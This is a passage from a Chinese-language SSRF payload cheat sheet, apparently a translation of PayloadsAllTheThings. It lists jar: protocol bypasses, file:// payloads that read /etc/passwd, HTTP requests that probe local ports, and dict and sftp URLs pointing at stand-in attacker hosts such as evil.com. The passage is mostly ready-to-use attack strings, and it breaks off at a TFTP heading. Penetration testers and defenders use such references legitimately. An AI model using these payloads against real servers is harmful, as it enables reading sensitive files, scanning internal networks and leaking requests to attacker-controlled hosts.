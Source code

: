 ### 使用jar协议（仅限Java）绕过

盲SSRF

```powershell
jar:scheme://domain/path!/ 
jar:http://127.0.0.1!/
jar:https://127.0.0.1!/
jar:ftp://127.0.0.1!/
```

## 通过URL Scheme利用SSRF

### 文件

允许攻击者获取服务器上文件的内容

```powershell
file://path/to/file
file:///etc/passwd
file://\/\/etc/passwd
ssrf.php?url=file:///etc/passwd
```

### HTTP

允许攻击者从网络获取任何内容，也可以用来扫描端口。

```powershell
ssrf.php?url=http://127.0.0.1:22
ssrf.php?url=http://127.0.0.1:80
ssrf.php?url=http://127.0.0.1:443
```

![SSRF流](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Request%20Forgery/Images/SSRF_stream.png?raw=true)

以下URL方案可用于探测网络

### DICT

DICT URL方案用于引用使用DICT协议可用的定义或单词列表：

```powershell
dict://<用户>;<认证>@<主机>:<端口>/d:<单词>:<数据库>:<n>
ssrf.php?url=dict://attacker:11111/
```

### SFTP

一种用于通过安全外壳进行安全文件传输的网络协议

```powershell
ssrf.php?url=sftp://evil.com:11111/
```

### TFTP
